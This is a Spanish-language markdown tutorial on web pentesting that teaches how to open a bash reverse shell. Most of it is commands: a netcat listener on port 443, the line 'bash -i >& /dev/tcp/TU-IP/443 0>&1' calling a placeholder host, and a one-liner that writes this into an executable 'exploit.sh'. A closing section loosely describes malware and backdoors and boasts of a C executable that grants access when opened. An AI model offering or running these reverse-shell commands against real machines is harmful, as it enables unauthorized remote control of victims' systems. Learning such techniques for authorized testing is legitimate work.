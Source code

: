 ```yaml
---
title: ReverShells & Malware
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).
<br>


<br>

<center><font color="yellow">[<font color="red">*</font>]</font><font color="green"> Empezaremos con las pruebas de ReverseShell</font></center>
<br>
<font color="white">--> los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

--> Para <font color="yellow"> Linux </font>:

```bash
sudo apt-get install netcat bash -y
```

--> Para <font color="yellow">arch-linux</font>:

```bash
pacman -Sy netcat bash
```

<br>

<p><font color="yellow">[<font color="red">*</font>]</font><font color="red"> Importante </font></p>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```bash
bash
```


<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>
<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</p>

<br>

<p><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</p>

```bash
bash
```
```bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</p>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto <b>443</b> con netcat. Recuerde
que con el comando <q><b>nc -nlvp 443</b></q> nos poniamos en escucha por el puerto <b>433</b> este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></p>
<br>
<p><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</p>
<br>
<p>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></p>

---

<br>
<center><font color="green">¿Como estan desarollados los backdoor, exploits, payloads y malware?</font></center>
<br>
<p>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.
Un archivo malicioso ya puede ser <font color="red">malware exploit backdoor-(Puerta tracera) payloads</font>, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <font color="yellow">C</font> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje <font color="yellow">C</font> y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</p>
<br>
